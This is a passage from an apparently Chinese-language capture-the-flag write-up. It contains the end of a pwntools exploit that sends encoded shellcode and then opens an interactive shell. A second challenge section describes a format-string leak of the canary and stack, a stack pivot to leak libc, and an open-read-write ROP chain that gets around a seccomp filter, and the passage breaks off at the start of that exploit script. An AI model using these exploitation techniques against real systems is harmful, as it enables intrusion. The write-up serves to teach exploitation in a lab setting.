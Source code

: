 ```python
saki,ido
{int(0x9010e7c1)}
saki,ido
1
saki,ido
{int(0x90904fb0)}
saki,ido
1
saki,ido
{int(0x9008e0c1)}
saki,ido
1
saki,ido
{int(0xf8b09090)}
saki,ido
1
saki,ido
{int(0xc7019090)}
saki,ido
1
saki,ido
{int(0xc0314890)}
saki,ido
1
saki,ido
{int(0x050f3bb0)}
saki,ido
1
saki,stop'''
# 发送 payload
p.recvuntil(b'come to help her\n')
debug()
p.sendline(payload)

p.interactive()


```
## Dilemma-总决赛
func_0中有格式化字符串漏洞可以泄漏canary和stack
![[Pasted image 20250517144131.png]]
func_1中有栈溢出，但长度不够，可以构造栈迁移先泄漏libc版本，
因为开启了sanbox禁用了execve，构造ROP链执行ORW来获取flag
```python
from pwn import *
from wstube import websocket
import sys

context(arch='amd64', os='linux', log_level='debug')
local = True if len(sys.argv) == 1 else False
elf_path = './' + sys.argv[0][:-3]
libc_path = './libc.so.6'
if local:
    p = process(elf_path)
else:
    ip, port = '101.200.155.151:12500'.split(':')
    p = remote(ip, port)
    # p = websocket("")

def debug():
    if local:
```